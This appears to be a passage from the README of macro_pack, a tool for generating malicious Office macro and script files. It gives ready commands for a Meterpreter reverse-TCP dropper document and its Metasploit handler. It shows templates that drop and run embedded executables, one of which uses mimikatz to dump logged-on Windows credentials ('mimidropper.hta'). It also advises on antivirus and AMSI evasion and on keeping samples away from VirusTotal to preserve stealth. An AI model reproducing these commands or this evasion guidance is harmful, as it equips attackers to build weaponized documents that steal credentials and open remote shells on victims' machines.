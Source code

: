 ### METERPRETER  
Meterpreter reverse TCP template using MacroMeter by Cn33liz.  
This template is CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole  
  -> Example: ```echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm``` 
 
This template also generates a  meterpreter.rc file to create the Metasploit handler
  -> Example: ```msfconsole -r meterpreter.rc``` 


### EMBED_EXE    
        
Drop and execute embedded file.
Combine with --embed option, it will drop and execute the embedded file with random name under TEMP folder.
 -> Example: ```macro_pack.exe  -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs```  
 
 
### EMBED_DLL
Combine with --embed option, it will drop and call a function in the given DLL
Give this template the name and parameters of function to call in DLL
-> Example1 : ```echo "main" | macro_pack.exe -t EMBED_DLL --embed=cmd.dll -o -G cmd.doc```
-> Example2 : ```echo "main log privilege::debug sekurlsa::logonpasswords exit" | macro_pack.exe -t EMBED_DLL --embed=mimikatz.dll -o -G mimidropper.hta```



## Efficiency

The various features were tested against locally installed Antimalware solutions as well as online service. I ran multiple tests with several kind of payloads and macro\_pack features.
A majority of antivirus static will be evaded by the simple "obfuscate" option. However, as most free tools payloads are generally caught by behavioural anaysis such as AMSI.
Features available in MacroPack pro mode generally permit full AV bypass including AMSI.

**Warning:** Do not submit your samples to online scanner (ex VirusTotal), Its the best way to break your stealth macro.
I also suggest you do not submit to non reporting site such as NoDistribute. You cannot be sure what these sites will do with the data you submit. 
If you have an issue with macro\_pack AV detection you can write to us for advice or submit an issue or pull request.


## Relevant resources

Blog posts about hacking with MS Office, VBS,  and other retro stuff security:
 - https://subt0x11.blogspot.fr/2018/04/wmicexe-whitelisting-bypass-hacking.html
 - http://blog.sevagas.com/?My-VBA-Bot (write a full VBA RAT, includes how to bypass VBOM protection)
 - http://blog.sevagas.com/?Hacking-around-HTA-files  (run hta code in non-hta files and hta polyglots)
 - http://pwndizzle.blogspot.fr/2017/03/office-document-macros-ole-actions-dde.html
 - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ (About Dynamic Data Exchange attacks)
 - https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
 - https://labs.mwrinfosecurity.com/blog/dll-tricks-with-vba-to-improve-offensive-macro-capability/
 - https://blog.quarkslab.com/analysis-of-ms16-104-url-files-security-feature-bypass-cve-2016-3353.html
 